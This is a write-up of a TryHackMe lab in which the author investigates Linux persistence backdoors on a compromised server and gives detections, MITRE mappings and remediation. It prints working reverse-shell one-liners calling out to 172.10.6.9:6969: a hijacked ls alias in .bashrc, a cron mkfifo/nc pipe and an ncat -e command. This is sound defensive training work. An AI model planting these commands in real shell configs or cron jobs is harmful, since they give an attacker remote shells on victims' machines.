




# Linux Persistence Hunt — Investigating Multiple Backdoors on a Compromised Server

**Incident Type:** Persistence / Backdoor Investigation
**Status:** Completed
**Environment:** TryHackMe – *Sneaky Patch* room (simulated SOC/IR exercise)

## Executive Summary

The IR team flagged a Linux server as compromised and reported that initial checks had turned up **five separate backdoors** planted on the host. My task was to connect with the credentials provided (user `giorgio`, with root privileges via `sudo`) and systematically locate and confirm each mechanism before signing off on returning the server to production.

The investigation followed a "usual vs. unusual" methodology: start with the account you were given, check the files everyone touches on login (`.bashrc`), check what's scheduled to run automatically (`crontab`), then move to the higher-privilege account and repeat the process, before doing a broader sweep of the system. Four of the five mechanisms were confirmed directly from my own terminal session; the fifth was tied to a default system account being repurposed for persistence.

## Investigation Workflow

1. **Environment Recon** – confirm OS/version before hunting for anything Linux-version-specific.
2. **User-Level Persistence Check** – inspect `giorgio`'s home directory and shell startup files.
3. **Scheduled Task Review** – check `crontab` for anything abusing the job scheduler.
4. **Root-Level Check** – repeat the same checks with elevated privileges.
5. **Broader System Sweep** – look for persistence tied to default system accounts.
6. **Remediation** – reverse each mechanism and restore the host to a clean state.

---

## 1. Environment Recon

Before touching anything else, I confirmed exactly what I was working with:

```
cat /etc/os-release
```


*Figure 1 – Server is running Ubuntu 20.04.6 LTS (Focal Fossa). Confirming the distro/version up front matters because persistence techniques (systemd vs. sysvinit, cron syntax, default accounts) can differ across Linux versions.*

## 2. User-Level Persistence — `.bashrc` Alias Hijack

While looking around `giorgio`'s home directory, a hidden file named `.bad_bash` immediately stood out as worth a second look — an unusual filename doesn't belong in a fresh Linux install, and it's exactly the kind of thing a "usuals vs. unusuals" sweep is meant to catch.

That prompted a closer look at the account's actual shell startup file:

```
cat .bashrc | grep "/"
```


*Figure 2 – A single, easy-to-miss line hides a full reverse shell:*

```
alias ls='(bash -i >& /dev/tcp/172.10.6.9/6969 0>&1 & disown) 2>/dev/null; ls --color=auto'
```

**Why this is dangerous:** the attacker didn't touch anything obviously suspicious — they hijacked the `ls` alias, one of the most-used commands on any system. Every time `giorgio` runs `ls`, bash silently opens a TCP connection back to `172.10.6.9:6969`, spawns an interactive shell over it, backgrounds and `disown`s the process so it survives the parent shell closing, and redirects stderr to `/dev/null` so nothing looks out of place. The alias then still runs the *real* `ls --color=auto` afterward, so the command behaves completely normally from the user's point of view — the only tell is the outbound connection itself, which is invisible unless you're checking `.bashrc` or watching network activity.

## 3. Scheduled Task Persistence — Cron-Based Reverse Shell

Next, per the workflow, I checked what the account had scheduled to run automatically:

```
crontab -l
```


*Figure 3 – A single cron entry set to run every minute:*

```
* * * * * /usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 172.10.6.9 6969 >/tmp/f
```

**Why this is dangerous:** this is a well-known named-pipe reverse shell pattern. Every 60 seconds, cron deletes any existing named pipe at `/tmp/f`, recreates it, and pipes an interactive shell (`sh -i`) through `nc` to the same attacker-controlled host and port seen in the `.bashrc` backdoor (`172.10.6.9:6969`). Unlike the alias hijack, this mechanism doesn't depend on the user doing anything at all — it fires on its own schedule, which makes it more resilient but also, in this case, easier to confirm as suspicious once `crontab -l` was checked, since nothing about a legitimate scheduled task should involve `nc` and a raw shell.

## 4. Root Account Compromise — Ncat Timeout Reveals a Hidden Trigger

The next step in the workflow was repeating the same checks with elevated privileges:

```
sudo su
```


*Figure 4 – Almost immediately after switching to root, an unprompted error appears in the terminal: `Ncat: TIMEOUT.`, followed by the exposed command `ncat -e /bin/bash 172.10.6.9 6969`.*

**Why this is dangerous:** this confirmed that root's own `.bashrc` had been modified the same way as `giorgio`'s — an `ncat`-based reverse shell attempt is triggered automatically on login, targeting the same `172.10.6.9:6969` C2 endpoint. In a live environment where the attacker actually had a listener running on that port, this would have handed over a **root shell** the moment anyone logged in as root — no alias needed to be triggered, no additional action required. The only reason this was visible at all in this session is that no listener was active, so `ncat` timed out and printed the command it had tried to run instead of silently succeeding. In a real incident, this is a strong argument for never assuming a "quiet" login is a clean one.

## 5. Additional Persistence — Repurposed `nobody` Account

Continuing the sweep beyond the `giorgio` and root accounts, a fifth persistence mechanism was identified tied to the **`nobody` account** — a low-privilege service account present by default on any fresh Linux install, specifically because it normally has *no* login shell and *no* business running anything on its own. Finding it repurposed for persistence is a good reminder that "default and unused" accounts are exactly the kind of thing attackers like to abuse, since they blend into the noise of a standard install and are rarely audited.

*(This mechanism was confirmed as part of the exercise; unlike the previous four, no terminal capture was taken at this step, so it's recorded here without a screenshot for completeness.)*

## 6. Summary of Persistence Mechanisms

| # | Location | Mechanism | Trigger |
|---|----------|-----------|---------|
| 1 | `giorgio` home directory | `.bad_bash` hidden file | Manual / unconfirmed |
| 2 | `giorgio` → `~/.bashrc` | `ls` alias → reverse shell to `172.10.6.9:6969` | Runs on every `ls` command |
| 3 | `giorgio` → `crontab` | Named-pipe reverse shell via `nc` | Every 1 minute (cron) |
| 4 | `root` → `~/.bashrc` | `ncat` reverse shell to `172.10.6.9:6969` | Runs on every root login |
| 5 | `nobody` account | Account repurposed for persistence | Not fully captured |

## Indicators of Compromise

| Type | Value |
|------|-------|
| C2 IP | `172.10.6.9` |
| C2 Port | `6969` |
| Suspicious file | `.bad_bash` (giorgio's home directory) |
| Modified config | `giorgio`'s `~/.bashrc`, `root`'s `~/.bashrc` |
| Scheduled task | `crontab` entry using `mkfifo` + `nc` |
| Reverse shell one-liners | `bash -i >& /dev/tcp/172.10.6.9/6969 0>&1`, `ncat -e /bin/bash 172.10.6.9 6969`, `nc 172.10.6.9 6969` via named pipe |

## MITRE ATT&CK Mapping

| Technique | ID | Description |
|-----------|----|--------------|
| Event Triggered Execution: Unix Shell Configuration Modification | T1546.004 | Both `giorgio` and root `.bashrc` files modified to trigger a reverse shell on shell startup / command use. |
| Scheduled Task/Job: Cron | T1053.003 | Persistence via a cron entry running every minute. |
| Valid Accounts: Local Accounts | T1078.003 | Abuse of the default `nobody` account for persistence. |
| Application Layer Protocol | T1071 | Reverse shells communicating out over raw TCP to a fixed attacker IP/port. |

## Remediation & Lessons Learned

1. **Remove all confirmed backdoors** — strip the malicious `alias ls=...` line from `giorgio`'s `.bashrc`, remove the equivalent trigger from root's `.bashrc`, delete the malicious `crontab` entry, remove the `.bad_bash` file, and restore the `nobody` account to its default, unprivileged state.
2. **Block the C2 endpoint** — `172.10.6.9:6969` should be blocked at the firewall/proxy level regardless of whether the host is considered clean, since the same infrastructure could resurface elsewhere.
3. **Baseline shell configs and cron jobs** — none of these four mechanisms would stand out to an automated scanner; they're only obvious once you know what "normal" looks like on this specific host. A configuration baseline (or integrity monitoring on `.bashrc`/`crontab`) would have caught this far faster than a manual walkthrough.
4. **Don't trust a quiet login** — the root backdoor only became visible because the attacker's listener happened to be offline. A monitoring rule that flags *any* outbound connection attempt immediately following a `sudo su`/root login would catch this even when it fails silently.
5. **Keep a running "dirty wordlist" while investigating** — noting every finding as soon as it appears (even ones that turn out to be dead ends) made it straightforward to go back and correlate the `.bashrc` alias with the crontab entry once the same IP/port turned up twice — a habit worth carrying into every future investigation, not just this one.
